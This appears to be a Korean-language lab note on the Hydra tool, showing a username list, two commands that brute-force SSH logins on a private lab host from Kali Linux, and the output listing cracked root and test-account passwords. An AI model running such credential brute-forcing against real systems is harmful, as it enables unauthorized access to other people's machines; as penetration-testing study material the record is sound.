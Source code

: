 

### Hydra

###### 칼리

root@kali-04:~/Desktop# vim userlist.txt

```
root
ktest
test1
test2
muser1
muser2
```



root@kali-04:~/Desktop# hydra -L userlist.txt -P dict.txt ssh://172.16.10.20

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-16 15:17:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 60 login tries (l:6/p:10), ~4 tries per task
[DATA] attacking ssh://172.16.10.20:22/
[22][ssh] host: 172.16.10.20   login: ktest   password: keroro2424.
[22][ssh] host: 172.16.10.20   login: root   password: keroro2424.
[22][ssh] host: 172.16.10.20   login: test1   password: 1
[22][ssh] host: 172.16.10.20   login: test2   password: 1
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-16 15:17:48
```



root@kali-04:~/Desktop# hydra -l root -P dict.txt ssh://172.16.10.20 // 이건 root 만 보고싶을 때

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-16 15:17:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 10 tasks per 1 server, overall 10 tasks, 10 login tries (l:1/p:10), ~1 try per task
[DATA] attacking ssh://172.16.10.20:22/
[22][ssh] host: 172.16.10.20   login: root   password: keroro2424.
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-16 15:18:06


```
